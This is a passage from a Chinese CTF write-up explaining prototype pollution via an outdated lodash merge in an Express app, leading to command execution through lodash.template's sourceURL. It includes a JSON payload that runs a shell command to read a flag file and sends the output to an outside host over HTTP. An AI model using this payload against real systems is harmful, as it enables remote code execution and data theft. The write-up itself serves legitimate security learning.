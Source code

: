 用的express 框架， req.body 格式可根据 **Content-Type**修改，如果为json 那么自动将req.body 格式设置为json，就相当于使用了JSON.parse
[![JKUnjx.png](https://s1.ax1x.com/2020/04/19/JKUnjx.png)](https://imgchr.com/i/JKUnjx)

lodash 低版本的 merge是存在原型链污染的
![JKUaKP.png](https://s1.ax1x.com/2020/04/19/JKUaKP.png)

因此条件达成，可以进行污染。可以给Object对象插入任意属性。
此题利用了lodash.template源码中,因为初始sourceURL是没有值的 ，因此通过污染添给加sourceURL加值，而这里是可以执行命令的，具体不细说了

```javascript
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
// ...
var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
  .apply(undefined, importsValues);
});
```

构造payload
```javascript
{"__proto__":{"sourceURL":"xxx\r\nvar require = global.require || global.process.mainModule.constructor._load;var result = require('child_process').execSync('cat /flag_thepr0t0js').toString();var req = require('http').request(`http://ip/${result}`);req.end();\r\n"}}
```

![JKdAp9.png](https://s1.ax1x.com/2020/04/19/JKdAp9.png)

监听得到flag
![JKdZOx.png](https://s1.ax1x.com/2020/04/19/JKdZOx.png)


# 五、参考

[JavaScript 中的构造函数](https://juejin.im/entry/584a1c98ac502e006c5d63b8)

[深入理解 JavaScript Prototype 污染攻击](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

[浅析javascript原型链污染攻击](https://xz.aliyun.com/t/7182)

[JavaScript Prototype污染攻击](https://zhuanlan.zhihu.com/p/85593346)

[Lodash 严重安全漏洞背后 你不得不知道的 JavaScript 知识](https://blog.fundebug.com/2019/07/20/lodash-security-problem/)

[Express+lodash+ejs: 从原型链污染到RCE](https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/)
